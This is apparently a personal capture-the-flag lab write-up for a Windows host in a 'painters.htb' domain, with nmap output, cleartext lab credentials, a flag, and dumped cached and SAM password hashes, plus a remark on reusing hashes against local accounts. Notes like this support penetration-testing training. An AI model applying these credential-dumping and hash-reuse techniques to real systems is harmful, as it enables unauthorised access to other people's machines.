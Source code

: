 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 
- IP: `192.168.110.52`

# Findings
### Credentials
`painters.htb\web_svc:!QAZ1qaz`

### Flags
- `ZEPHYR{S3rV1c3_AcC0Un7_5PN_Tr0uBl35}`
## External
### Enumeration
```
PORT     STATE SERVICE       REASON         VERSION
135/tcp  open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 64
3389/tcp open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: PAINTERS
|   NetBIOS_Domain_Name: PAINTERS
|   NetBIOS_Computer_Name: PNT-SVRSVC
|   DNS_Domain_Name: painters.htb
|   DNS_Computer_Name: PNT-SVRSVC.painters.htb
|   DNS_Tree_Name: painters.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2024-06-27T08:27:34+00:00
| ssl-cert: Subject: commonName=PNT-SVRSVC.painters.htb
| Issuer: commonName=PNT-SVRSVC.painters.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-25T16:06:00
| Not valid after:  2024-12-25T16:06:00
| MD5:   f569:8ab6:5299:51e9:b65d:d557:4709:dbc1
| SHA-1: fe25:6645:06bc:e04e:6cc2:5a58:0f67:b1ab:e686:c5bb
| -----BEGIN CERTIFICATE-----
| MIIC8jCCAdqgAwIBAgIQGDwGHXJVRrxOjALj6Zo0oDANBgkqhkiG9w0BAQsFADAi
| MSAwHgYDVQQDExdQTlQtU1ZSU1ZDLnBhaW50ZXJzLmh0YjAeFw0yNDA2MjUxNjA2
| MDBaFw0yNDEyMjUxNjA2MDBaMCIxIDAeBgNVBAMTF1BOVC1TVlJTVkMucGFpbnRl
| cnMuaHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3uXCGkefEANZ
| OiKo/tXiEjWU0+t0h0o+TJ/0Y6h8JgGtG/itMKFEkk09CW244rOx5zjkzxeXhij+
| bbWE6CsWFctzr79aCbgZz5/qr9CHvNMtVT2xKTyyTl0pgBskGgulhntYsHcPw7Nk
| EDDjNlQXpbigcEdLq9/zvrWKMTucyNVfKXa+bwdAso6WX0Z0bFNXco+OZdvKOP6W
| RFzV1uIPO8npclpxWnfQdBa1nnEztCsofw5YfwMG1VK+VgYcwqWE2I7fFDVwpHHU
| hEh/Z59xGGt/s1RoIKnW+W2CLELHl6sd7KSMrzuobIKXN5kQYEDpNF+6yZKUEJf/
| SJyjWIR9SQIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMC
| BDAwDQYJKoZIhvcNAQELBQADggEBAE4180+bi1wgFWLVFBrfpgJK1V7AOf9qGarF
| 5HXFIUiQ6odZ3hOpil/UUMZc0kJBc/4VNzs+1hzHtmnCeeDv6/CeRWlzkFhGNbl4
| c+85blTsyh9tpuvjNpe0z/4nb4gAMCQgJvbvO3EmzUCNuYNz+ImCi1rfkiifWQJm
| NGJ1QMgv+1U4d8dJml60P2jlekXUnLymjuyVhoXNnto64pzImmKAg8sps1E4c8Ih
| tn2u2v/I9E1ELrjqYwtqNt6NNK7S1X1tIwt6cvDi2f5D2JU+ttXITqL9mD0Vv51T
| SVaQzrkjFL9uxr2vy8R7MpMY0mhQFdbfQW/W8ovqopCpeNsoZP0=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-27T08:27:44+00:00; +6s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
![](https://i.imgur.com/C6hLbvd.png)
`painters.htb\web_svc:!QAZ1qaz (Pwn3d!)`
### Gaining Access
![](https://i.imgur.com/THBNFcY.png)
![](https://i.imgur.com/eLto3bz.png)
- if i have all the privs that means am an admin
![](https://i.imgur.com/SndVOq5.png)
## Internal
### Enumeration
![](https://i.imgur.com/CumcNBI.png)
```shell
[*] Dumping cached domain logon information (domain/username:hash)
PAINTERS.HTB/Administrator:$DCC2$10240#Administrator#4f3d8c09f46360e84463d125c240c554: (2023-12-15 06:13:08)

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6ee87fa6593a4798fe651f5f5a4e663e:::
James:1001:aad3b435b51404eeaad3b435b51404ee:8af1903d3c80d3552a84b6ba296db2ea:::
```
[[PNT - SVRBPA]]
![](https://i.imgur.com/j8E2K02.png)
`WINRM       192.168.110.56  5985   NONE             [+] None\riley:P@ssw0rd (Pwn3d!)`
- i got stuck and i temembered the hashes i got, 1 thing i forgot was i didnt tried them on local computer with `-d .`
![](https://i.imgur.com/nP2cpIr.png)
[[PNT - SVRBPA]]
### Gaining Access


### Maintaining Access


# Random Notes